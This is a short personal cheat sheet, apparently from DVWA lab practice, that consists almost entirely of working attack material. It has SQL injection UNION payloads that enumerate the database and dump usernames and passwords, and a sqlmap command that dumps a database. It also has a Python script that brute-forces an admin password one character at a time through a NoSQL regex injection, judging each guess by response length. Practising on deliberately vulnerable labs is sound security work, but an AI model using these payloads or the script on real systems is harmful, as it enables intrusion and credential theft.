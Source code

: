 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>shitscript</h4>
<code>import requests
  bruten = '1234567890abcdef-'
  xx=0
  x = bruten[xx]
  keylist = ""
  keystr = keylist + x
  #ptkey='b317d17-3'
  #ptkeyf= ptkey + x
  #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
  URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
  r = requests.get(URL)
  s = (len(r.content))
  
  while True:
      try:
          for i in range(0, 17):
              
              x = bruten[xx]
              keystr = keylist + x
              #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
              URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
              print(URL)
              print(keystr)
              #print(keylist)
              r = requests.get(URL)
              s = (len(r.content))
              #print(s)
              if s == 1614:
                  keystr = keylist + x
                  keystr = keystr
                  keylist = keylist + x
                  #print(keylist)
                  xx=0
                  continue
  
              else:
                  #keylist = ""
                  keystr = keylist + x
                  keystr = keystr
                  xx+=1
                  continue
      except:
          print("crackarooniedddddd")
          print('password is' + keystr[:-1])
          break  </code>
